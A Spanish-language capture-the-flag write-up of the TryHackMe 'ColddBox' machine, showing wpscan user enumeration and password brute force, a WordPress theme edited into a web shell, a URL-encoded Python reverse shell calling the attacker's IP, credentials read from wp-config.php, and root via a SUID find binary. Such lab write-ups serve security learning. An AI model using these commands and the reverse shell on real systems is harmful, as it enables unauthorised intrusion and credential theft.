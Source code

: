 ```yaml
---
layout: single
title: Writeup THM - Maquina Colddbox
comments: true
excerpt: "ColddBox es una maquina de TryHackMe de nivel Easy, es una buena maquina para reforzar conocimientos. Empezaremos enumerando y encontramos una pagina hecha en wordpress, con wpscan podremos encontrar usuarios y realizar fuerza bruta, accedemos al panel de control de wordpress con credenciales que encontramos en nuestro anterior ataque de fuerza bruta. Editaremos un theme de wordpress para generar una reverse shell y somos un usuario www-data, pero rapidamente encontramos credenciales del user c0ldd en el archivo wp-config.php y por ultimo logramos ser root abusando de un binario find con permisos SUID."
date: 2022-01-27
classes: wide
header:
  teaser: /assets/images/2022-01-27-writeup-thm-colddbox/Untitled.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - OSCP  
  - Hacking
  - easy
  - Wordpress
  - wpscan
  - enumerate
  - bruteforce
  - wp-config
  - suid
  - find
---
```


# ColddBox

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled.png)

## Resumen:

ColddBox es una maquina de TryHackMe de nivel Easy, es una buena maquina para reforzar conocimientos. Empezaremos enumerando y encontramos una pagina hecha en wordpress, con wpscan podremos encontrar usuarios y realizar fuerza bruta, accedemos al panel de control de wordpress con credenciales que encontramos en nuestro anterior ataque de fuerza bruta. Editaremos un theme de wordpress para generar una reverse shell y somos un usuario www-data, pero rapidamente encontramos credenciales del user c0ldd en el archivo wp-config.php y por ultimo logramos ser root abusando de un binario find con permisos SUID.

## Scan Nmap
<p align="center">
<img src="/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%201.png">
</p>

## Port 80 - Wordpress

```bash
ColddBox ❯ wpscan --url 10.10.202.208 --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[snip]

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:04 <============================================================================================> (10 / 10) 100.00% Time: 00:00:04

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jan 27 21:10:40 2022
[+] Requests Done: 75
[+] Cached Requests: 6
[+] Data Sent: 17.239 KB
[+] Data Received: 17.997 MB
[+] Memory used: 186.215 MB
[+] Elapsed time: 00:02:42
```

usuarios encontrados

```bash
c0ldd
hugo
philip
```

haremos fuerza bruta con wpscan al usuario C0ldd

```bash
ColddBox ❯ wpscan --url http://10.10.202.208 --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt -t 50
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%202.png)

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%203.png)

genial pudimos encontrar credenciales con nuestro ataque de fuerza bruta

```bash
c0ldd:9876543210
```

accdemos al panel de control de wordpress con dichas credenciales

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%204.png)

iremos a la session Apperance → Editor, modificaremos el archivo 404.php para crear nuestra web shell

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%205.png)

accderemos a nuestra reverse en la siguiente ruta

```bash
http://10.10.202.208/wp-content/themes/twentyfifteen/404.php?cmd=whoami
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%206.png)

ahora nos toca crear una reverse shell para ello dejaremos en escucha el puerto 443 en escucha

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%207.png)

generaremos una reverse shell de la siguiente manera

```bash
http://10.10.202.208/wp-content/themes/twentyfifteen/404.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.132.249%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22bash%22)%27
```

y logramos conectarnos  y ejecutar comandos en la maquina victima

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%208.png)

## User c0ldd

en el archivo de configuracion de wp-config.php logramos encontrar credenciales del user c0ldd

```bash
www-data@ColddBox-Easy:/var/www/html/wp-content/themes/twentyfifteen$ cat /var/www/html/wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

[snip]
```

credenciales encontradas 

```bash
c0ldd:cybersecurity
```

asi que accedemos con dichas credenciales

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%209.png)

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%2010.png)

## Escalacion de privilegios - User Root

para poder escalar privilegios buscaremos si tenemos un binario con permisos de SUID para lograr ser root

```bash
c0ldd@ColddBox-Easy:/home$ find / -type f -perm -u=s 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

y explotamos dicho binario find con permisos de SUID 

```bash
find . -exec /bin/sh -p \; -quit
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%2011.png)

Muchas gracias por tomarte tu tiempo en leer, nos vemos.